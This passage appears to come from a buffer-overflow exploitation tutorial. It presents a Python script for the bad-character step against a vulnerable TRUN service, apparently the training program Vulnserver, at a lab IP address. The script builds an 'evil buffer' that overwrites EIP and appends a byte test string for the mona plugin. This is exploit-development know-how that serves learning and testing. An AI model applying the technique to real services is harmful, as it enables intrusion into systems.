 I have added a badchar generator to our exploit:

```python
#!/usr/bin/env python3
# TRUN - Step 4 - find bad characters
import socket

offset = 2005
size = 4096
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n" # new line 0x0a

# generate bad char test string
badchars = [ 0x00, 0x0a ] # found badchars to exclude. We can assume 0x00 and 0x0a (new line) are bad chars without trying
badstring = b""
for x in range(1,256):
    if(x not in badchars):
        badstring += bytes([x])

# write generated badchars to file for mona
f = open('/srv/samba/protected/badchars.bin', 'wb')
f.write(badstring)
f.close()

buf = b""
buf += b"TRUN /."
buf += b"A" * offset
buf += b"B" * 4         # EIP overwrite
buf += b"C" * 4
buf += badstring        # put the badchar test string after the EIP overwrite
buf += b"D" * (size - offset - 8 - len(badstring))
buf += line_ending

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```
